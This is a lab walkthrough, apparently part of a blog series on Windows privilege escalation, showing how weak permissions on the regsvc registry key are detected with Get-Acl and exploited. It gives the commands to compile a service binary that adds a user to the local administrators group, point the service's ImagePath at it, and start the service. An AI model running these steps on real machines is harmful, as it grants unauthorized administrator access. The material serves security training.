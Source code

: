 > 
> Kali VM
> 
> 1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
> 2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
> 3. Copy the generated file x.exe, to the Windows VM.
> 
> Windows VM
> 
> 1. Place x.exe in ‘C:\Temp’.
> 2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
> 3. In the command prompt type: sc start regsvc
> 4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators


##### Detection
Since we want to use the **regsvc** service, we check the permission that users have to access some resource. To do this, we use the **Get-Acl** command of PowerShell:

![Get-Acl](/assets/img/posts/windows-privesc/task5/task5_registry.png)

From the output of **Get-Acl** command, we note that the user belongs to the **NT AUTHORITY\SYSTEM** group (from the line ```Group``` row) and, also, that this group has **Full Control** permission over the given registry key (from ```Access``` row).


##### Exploitation
Since in the Windows machine there are some tools already uploaded, we downloaded on our Kali machine the source code in **C:\Users\User\Desktop\Tools\Source\windows_service.c**.
Then, we must change the code to insert the malicious code ```cmd.exe /k net localgroup administrators user /add```. So, basically, we must change the **Run** function:

![Source Code](/assets/img/posts/windows-privesc/task5/modify_code.png)
